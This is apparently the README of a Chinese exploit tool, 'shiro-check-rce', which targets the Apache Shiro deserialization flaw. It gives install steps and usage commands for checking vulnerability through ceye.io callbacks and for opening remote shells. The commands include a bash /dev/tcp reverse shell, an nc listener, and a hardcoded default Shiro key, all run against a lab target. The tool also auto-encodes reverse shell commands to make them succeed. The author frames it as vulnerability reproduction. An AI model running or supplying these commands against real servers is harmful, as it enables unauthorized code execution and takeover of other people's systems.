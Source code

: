 # 0x00 前言

最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。

# 0x01 工具安装

本工具需要 Python3 和 Java 环境，下载本工具后，将文件解压，在本项目目录下运行下面的命令，安装Python第三方库即可。

```
pip3 install -r requirements.txt
```
国外下载地址：https://github.com/teamssix/shiro-check-rce/releases/

国内下载地址：https://gitee.com/teamssix/shiro-check-rce/releases

# 0x02 工具介绍

```
   _____ __    _               ________              __      ____  ____________
  / ___// /_  (_)________     / ____/ /_  ___  _____/ /__   / __ \/ ____/ ____/
  \__ \/ __ \/ / ___/ __ \   / /   / __ \/ _ \/ ___/ //_/  / /_/ / /   / __/   
 ___/ / / / / / /  / /_/ /  / /___/ / / /  __/ /__/ ,<    / _, _/ /___/ /___   
/____/_/ /_/_/_/   \____/   \____/_/ /_/\___/\___/_/|_|  /_/ |_|\____/_____/   By TeamsSix

我的个人博客：teamssix.com
我的个人公众号：TeamsSix

-c ：输入要执行的命令
-h ：查看帮助
-k : 输入自定义的key，不输入此参数时将遍历尝试默认key
-t ：输入你的ceye.io的token，用于检测shiro漏洞是否存在，此选项需要配合 -c "ping your.ceye.io" 使用
-u ：指定URL

python3 shiro-check-rce.py (-c) <command> [-h] [-k] <key> [-t] <token> (-u) <url>
```

## 1、漏洞检测

该功能需要你有一个[http://ceye.io/](http://ceye.io/)的账号，在[http://ceye.io/profile](http://ceye.io/profile)页面，找到自己的`Identifier`值和`API Token`值。

使用 -t 和 -c 参数配合使用，即可调用默认key字典进行检测.

> 文中的 http://192.168.175.146:8080/ 为本地靶机，192.168.175.152:9527 为 nc 监听地址。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6
```

![](./images/shiro-check-rce-1.png)

如果你有自己的key，也可以使用 -k 参数进行指定。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token} -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6 -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-2.png)

## 2、反弹shell

这里我采用bash命令反弹到本地nc监听端口的方式，因此我这里需要先在本地建立一个 nc 监听端口。

```
nc -lvvp 9527
```

之后，执行反弹shell命令

```
bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1

示例：bash -i >& /dev/tcp/192.168.175.152/9527 0>&1
```

本工具会对输入命令进行识别，如果检测到用户输入了bash反弹shell命令，将会自动对命令进行编码，无需自己编码，避免了明明存在漏洞却因为编码问题而反弹不了shell的尴尬。

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1"

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1"
```

![](./images/shiro-check-rce-3.gif)

如果知道key的话，就直接 -k 指定 key 即可

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1" -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1" -k kPH+bIxk5D2deZiIxcaaaA==
```

![](./images/shiro-check-rce-4.gif)

# 0x03 注意事项

* 1、本程序需要 python3 环境以及 java环境
* 2、在进行漏洞检测时，-c 指定 ping 的 URL 和 -t 指定的 token 需要是同一 ceye 账户的。
* 3、在安装`pycryptodome`库时，可能会碰到一些问题，可以根据报错信息进行排查，或者到网上找寻相关资料


![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/TeamsSix_Subscription_Logo2.png)
